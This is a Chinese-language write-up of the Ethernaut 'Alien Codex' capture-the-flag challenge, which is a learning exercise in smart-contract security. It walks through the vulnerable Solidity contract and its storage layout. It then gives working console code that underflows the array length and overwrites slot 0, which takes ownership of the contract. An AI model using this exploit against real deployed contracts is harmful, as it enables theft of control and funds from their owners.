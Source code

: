 # Alien Codex
### 原题
你打开了一个 Alien 合约. 申明所有权来完成这一关.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "../helpers/Ownable-05.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint256 i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```
### 分析
我们可以看到继承了Ownable这个合约，\
我在github的仓库中找到`Ownable-05.sol`，\
`address private _owner;`存储定义在slot0。\
`contacted`修饰符可以通过调用`makeContact()`来使得校验通过。\
剩下能够操作的都是与动态数组相关。\
其实合约中整个状态变量如以下：
```solidity
  address private _owner;  // 20字节
  bool public contact;     // 1字节
  bytes32[] public codex;  // 32字节
```
根据变量的长度，我们就知道，_owner和contact会被压缩在slot0中。\
slot1存动态数组codex的长度。\
我先在命令行中看看这些值的情况。
```javascript
await web3.eth.getStorageAt(instance,0);
// '0x0000000000000000000000000bc04aa6aac163a6b3667636d798fa053d43bd11'
await web3.eth.getStorageAt(instance,1);
// '0x0000000000000000000000000000000000000000000000000000000000000000'
// 我们执行先makeContact
await contract.makeContact();
// 我们再看slot0的值
await web3.eth.getStorageAt(instance,0);
// '0x0000000000000000000000010bc04aa6aac163a6b3667636d798fa053d43bd11'
// 改变length值
await contract.retract();
await web3.eth.getStorageAt(instance,1)
// `solidity ^0.5.0,所以可以下溢出，此时 length 变为最大值了
// '0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff'

```
我们要想办法更改slot0存储的值，改成我们自己的地址来宣示所有权。\
我们可以看到`retract()`中,可以任意修改codex.length值。\
将codex.length改到uint256的最大值，\
怎么操作？\
就是利用数据下溢出漏洞，调用`retract()  执行length--`，\
为什么首先要这么做？
当我们要利用溢出的时候，就可以看到。\
先卖个关子，继续往下看就知道。\
我们假设（幻想）下，\
根据动态数组的存储机制，`p = keccak256(bytes32(存储数组长度的slot编号))`。\
数组元素 `index = p + offset`。\
如果我可以使用`revise(uint256 i, bytes32 _content)`, \
将我的地址作为参数，找个一个i，可以正好通过计算拿到slot0，那不是就可以破解了。\
因为这个合约中可以涉及到存储的就只有`record(bytes32 _content)`和`revise(uint256 i, bytes32 _content)`。\
`record(bytes32 _content)`是push操作，这个无法选择指定存储位置。\
如果是要让`index == 0`, 那么我们还是利用溢出的漏洞去正好让index等于0。
```javascript
/**
 * 在ethernaut.openzeppelin.com的过关页面，打开console
 * 使用`help()`可以查询到许多有用的内嵌对象
 * player -当前玩家的钱包账号地址
 * contract -当前过关合约实例
 * instance -当前过关合约实例的地址
 */
// 1. 我们执行先makeContact
await contract.makeContact();
// 2. 计算出p值
let p = BigInt(web3.utils.soliditySha3(1))
// 80084422859880547211683076133703299733277748156566366325829078699459944778998n

// 3. 计算offset
let max = 1n << 256n;
let offset = (max - p) % max;
// 35707666377435648211887908874984608119992236509074197713628505308453184860938n
// 看到没有，offset值很大，因为我们要循环计算，达到溢出
// 如果不首先把length设置到最大，EVM的边界检查就可能无法通过，i < length
// 这个就回答了上面的`为什么要将codex.length改到uint256的最大值`

// 4. 利用revise函数来修改slot0的
// player是自己的地址，用来宣示所有权
// 因为address是20字节的，所以我们还要将player扩展到32字节大小
let playerBytes32 = '0x' + player.replace(/^0x/, '').padStart(64, '0');
await contract.revise(offset, playerBytes32)

// 交易成功
// 打印slot0的值
await web3.eth.getStorageAt(instance, 0);
// 0x0000000000000000000000005c7c4ce6eb0d638af91c2726bfea5f6a8abb0a61
// 如果再执行一遍await contract.revise(offset, playerBytes32)，会发生什么？可以想想。
```
### 总结
一般破解观察主要几点：
1. 看编译器版本，低版本的安全性低，数学运算可以产生数据溢出情况,高版本的如果使用了`unchecked{}`要特别注意
2. 看修饰符
3. 看能够修改值的函数
4. 如果是涉及转账，看receive和callback，或者有标记payable的函数